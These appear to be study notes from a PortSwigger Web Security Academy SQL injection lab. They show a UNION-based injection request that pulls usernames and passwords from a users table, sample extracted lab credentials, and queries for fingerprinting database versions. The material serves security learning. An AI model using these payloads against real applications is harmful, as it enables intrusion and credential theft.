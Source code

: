 The results from the query contain all the usernames and passwords, for example:

```text
... 
administrator~s3cure 
wiener~peter 
carlos~montoya 
...
```

Different databases use different syntax to perform string concatenation. For more details, see the [SQL injection cheat sheet](https://portswigger.net/web-security/sql-injection/cheat-sheet).

```request
# This is one Burp request
GET /filter?category='union+select+null,username+||+'~'+||+password+from+users-- HTTP/2
Host: 0a6c004d03cf9e9b879115c6003000ee.web-security-academy.net
Cookie: session=BX4PrmbQE249yKTVPdNNmMTz6z6o4Sh6
Cache-Control: max-age=0
Sec-Ch-Ua: "Brave";v="123", "Not:A-Brand";v="8", "Chromium";v="123"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/123.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8
Sec-Gpc: 1
Accept-Language: en-US,en;q=0.8
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
```

## Examining the database in SQL injection attacks

To exploit SQL injection vulnerabilities, it's often necessary to find information about the database. This includes:
- The type and version of the database software.
- The tables and columns that the database contains.

## Querying the database type and version

You can potentially identify both the database type and version by injecting provider-specific queries to see if one works

The following are some queries to determine the database version for some popular database types:

| Database type    | Query                     |
| ---------------- | ------------------------- |
| Microsoft, MySQL | `SELECT @@version`        |
| Oracle           | `SELECT * FROM v$version` |
| PostgreSQL       | `SELECT version()`        |
